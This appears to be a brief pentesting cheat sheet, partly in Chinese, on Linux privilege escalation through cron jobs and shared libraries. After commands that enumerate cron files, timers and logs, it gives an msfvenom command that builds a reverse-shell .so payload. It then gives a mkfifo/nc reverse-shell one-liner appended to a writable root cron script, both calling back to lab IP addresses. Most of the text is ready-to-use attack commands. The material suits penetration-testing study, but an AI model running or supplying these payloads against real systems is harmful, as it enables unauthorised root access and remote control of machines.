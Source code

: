 - when u find some thing interesting(like a **scheduled installed app** to run).U can follow the app to modify its file to Gain PE
### Cronjob Info
```bash
ls -lah /etc/cron*


cat /etc/crontab
cat /etc/anacrontab
cat /etc/frontal
cat /etc/anacron
systemctl list-timers --all

crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
cat /var/log/cron.log
ls -lah {Cron_job_priv}
```
### Share Lib
```bash
ldd <binary>

# 查看/etc/crontab中的LD_LIBRARY_PATH
#e.g. LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.199 LPORT=8089 -f elf-so reverse.so
```
# Exploit
## Abuse CronJobs
```bash
#在root的定时任务的可写脚本下，加入回弹shell语句
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >>  <corn_job_file>
```

